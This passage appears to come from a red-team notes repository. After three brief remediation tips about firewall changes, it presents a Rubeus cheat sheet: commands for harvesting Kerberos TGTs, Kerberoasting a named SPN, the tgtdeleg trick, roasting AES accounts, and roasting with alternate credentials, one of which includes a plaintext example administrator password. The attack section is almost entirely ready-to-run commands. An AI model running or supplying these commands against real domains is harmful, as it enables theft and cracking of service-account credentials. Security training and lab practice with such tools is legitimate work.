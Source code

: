 ## Remediation

1. Monitor for unexpected host firewall changes.

2. Strengthen firewall rules and network access control lists.
 
3. Implement application allow-listing.

--------------

![image](https://github.com/mccleod1290/Practical-Threat-Hub/assets/144599723/cfe48f09-95c4-4cd0-9df0-b9dec2b05ea9)
Credits to image - https://www.youtube.com/watch?v=ajOr4pcx6T0
# 1.  Rubeus
https://tryhackme.com/room/attackingkerberos

https://dmcxblue.gitbook.io/red-team-notes-2-0/active-directory/active-directory-attacks/kerberoasting

https://www.hackingarticles.in/a-detailed-guide-on-rubeus/

Harvest TGT every x seconds
```
rubeus.exe harvest /interval:30
```

**Basic Kerberoasting:**

- _Description:_ Extracts the KRB_TGS ticket for a specified SPN and attempts to brute force the service account password.
  
```
rubeus.exe kerberoast /spn:ldap/dc1.ignite.local/ignite.local
```

 
- **TGT Delegation Trick:**
 
  - _Description:_ Uses the `/tgtdeleg` flag to perform a TGT delegation trick, roasting all RC4-enabled accounts.
```
rubeus.exe kerberoast /spn:ldap/dc1.ignite.local/ignite.local /tgtdeleg
```

- **Roasting AES-Enabled Accounts:**
  
  - _Description:_ Uses the `/aes` flag to roast all AES-enabled accounts while using KerberosRequestorSecurityToken.
  
```
rubeus.exe kerberoast /spn:ldap/dc1.ignite.local/ignite.local /aes
```


- **Roasting with Alternate Credentials:**
 
  - _Description:_ Performs Kerberoasting and searches for users using alternate domain credentials.
  - _Command:_

```
 rubeus.exe kerberoast /spn:ldap/dc1.ignite.local/ignite.local /creduser:ignite.local\Administrator /credpassword:Ignite@987
```
